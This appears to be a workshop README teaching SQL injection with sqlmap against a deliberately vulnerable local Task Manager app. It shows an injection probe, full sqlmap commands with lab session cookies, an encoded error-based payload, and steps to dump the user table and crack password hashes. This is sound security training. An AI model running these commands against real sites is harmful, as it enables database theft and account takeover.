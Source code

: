 # SQL Injection
### Description
Ability to influence the structure of a SQL database query through unsafe includes of user input.

* ` stmt = "SELECT * FROM users WHERE username=" + INPUT[user]`

### Tool
#### sqlmap
http://sqlmap.org - Command Line tool for dealing with SQL injection flaws

Required flags
- `-u URL` Target URL

Commonly-used configuration flags
- `--data=DATA` String to be sent through POST
- `--cookie=COOKIE` Cookie data for authenticated sessions
- `--proxy=PROXY` Route sqlmap requests through a proxy so you can see what it's doing
- `-p TESTPARAMETER` Parameter you want to check
- `-r REQUESTFILE` Load HTTP request from the following file

Quick check data access flags
- `-b, --banner` Retrieve DBMS banner
- `--current-user`
- `--current-db`

Dump the data flags
- `--dump-all` careful, this can be slow
- `--dump` dump the targeted table data
- `-D DB` target database
- `-T TBL` target table
- `-C COL` target column


## Walkthroughs

| Application | Location | Parameter | Tool |
| ---- | ---- | ---- | ---- |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/forgot_password/ | email | sqlmap |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/7/project_details/ | URL parameter | sqlmap |

### Forgot Password SQL Injection
#### Step 1 - Validate SQL Injection Vulnerability
Validate access to the vulnerable task manager application, you should see the following login page.

![vtm login](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-login.png)

Access the Forgot Password Page

![vtm forgot password](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-forgot-password.png)

Validate that the email parameter throws a SQL error message by inserting `test@tm.com'` into the Email form field

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-email-sql-error.png)


#### Step 2 - Use sqlmap to confirm vulnerability
Since the forgot password page does not require authentication, use some of the above flags to confirm the vulnerability by using flags for posting data to the endpoint
```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" --banner
```

sqlmap will step through every parameter and ask if it should check for possible sql injection, you can bypass this check using `-p email`

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --banner
```

#### Step 3 - Explore commands sent using sqlmap with a proxy
Since you have confirmed that the endpoint is vulnerable to SQL Injection and exploitable with sqlmap, now use Burp Suite to view the requests being sent to the server by dumping the full schema of the backend mysql database.

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --proxy=http://127.0.0.1:8080 --schema
```

The full request to dump a portion of the schema looks as follows, use Burp Suite HTTP History to view similar requests.

```
POST /taskManager/forgot_password/ HTTP/1.1
Content-Length: 258
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: sqlmap/1.2.8.15#dev (http://sqlmap.org)
Host: 127.0.0.1:8000
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded; charset=utf-8

email=test%40tm.com%27%20AND%20EXTRACTVALUE%281890%2CCONCAT%280x5c%2C0x716a6a7071%2C%28SELECT%20MID%28%28IFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%29%2C1%2C21%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%202%2C1%29%2C0x71626a7071%29%29--%20UufD
```

### Project Details SQL Injection

#### Step 1 - Validate SQL Injection Vulnerability
Navigate back to the login page of vtm and login as `chris` with password `test123`

![vtm dashboard](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-chris-dashboard.png)

Browse to the *Marketing Campaign* project from the dashboard

![vtm project detail](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-project-details.png)

Check whether the URL project id, embedded between *taskManager* and *project_details* is vulnerable to sql injection by adding ` OR` (that's *space*OR) after the number 7.

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-project-sql-error.png)

#### Step 2 - Setup sqlmap to exploit the project details SQL Injection vulnerability

Since this page is only accessible to authenticated users, we will need to pull the cookie value associated with `chris` and add it to the sqlmap request.

Get all of the cookie headers using the browser's developer tools or viewing the request in Burp Suite. The request for the project details page will look similar to the following:

```
GET /taskManager/7/project_details/ HTTP/1.1
Host: 127.0.0.1:8000
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc
```

Since we currently don't know which of these values are required for user authorization, copy the entire string for use with sqlmap.

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7/project_details/" --cookie="csrftoken=CMk8epAzX7UDyXl2R0zBa2yfmZ8muICjJ7L2ZmUpKV962mlRNSthtANTaVkYubI0; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0olo:wR61ZH3DwyceV4rXFs5WCkw-lXQ" --current-db
```

Running this command with the proper cookie value does not result in a successful sqlmap session, but will output something similar to the following:

```
[14:16:00] [WARNING] URI parameter '#1*' does not seem to be injectable
[14:16:00] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')
[14:16:00] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 127 times
```

Since sqlmap does not recognize the project id parameter embedded in the URL, use the `*` character to denote where the injection should take place

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7*/project_details/" --cookie="csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc" --current-db
```

#### Step 3 - Exploit the project detail SQLi to harvest user credentials

Not that we know this injection point is valid, let's attempt to enumerate the *auth_user* table within the *vtmdb* database by appending `--dump -D vtmdb -T auth_user` to the sqlmap command.

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7*/project_details/" --cookie="csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc" --dump -D vtmdb -T auth_users
```

Allow sqlmap to run a brute-force attack against the identified md5 hashes and you should get information about most of the vtm accounts.

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-sqlmap-auth-user.png)

Congratulations! Test out `dade`'s password to verify that the credentials are active.

## Challenges


| Challenge | Difficulty |
| ---- | ---- |
| Altoro Mutual | http://demo.testfire.net |
| Bypass Login | :star: |
| That's a sketchy transaction | :star::star::star: |
| View all transactions	| :star::star::star:|
| Juice Shop | http://localhost:3000 |
| Bypass login | :star: |
